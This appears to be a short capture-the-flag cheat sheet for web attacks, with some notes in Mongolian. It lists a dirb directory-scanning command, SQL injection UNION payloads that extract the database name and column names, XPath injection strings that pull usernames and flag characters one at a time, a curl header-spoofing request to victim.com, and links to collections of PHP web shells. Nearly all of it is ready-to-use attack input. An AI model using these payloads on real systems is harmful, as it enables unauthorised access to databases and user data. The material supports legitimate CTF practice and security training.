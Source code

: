 Directory traversal attack
-

* [`dirb`](https://tools.kali.org/web-applications/dirb)

	* `dirb <target-address>`


JavaScript
-

* `shell`
	
	node command line шеллийг ашиглаж болно.


SQLi
-

* `UNION`
	
```
' UNION SELECT current_database() as name --
' AND 1=0 UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS --
```

XPath Injection
-

```
'or string-length(name(.))=5 or '!'='
' or substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE) or '!'='
'or contains(.,'admin') or'
a' or (substring((//flag)[1], 1, 1)) = 'a
```

Curl
-

* `Playing with header`
	
	* `curl -H "User-Agent: SUPER SECRET AGENT" http://victim.com/`
	
Web shells
-

* `Shells`
	
	* [dict.txt](https://github.com/ByamB4/Capture-The-Flag-Tools/blob/master/Web/shells/list.txt)
	* [\*.php](https://github.com/ByamB4/Capture-The-Flag-Tools/tree/master/Web/shells/code)
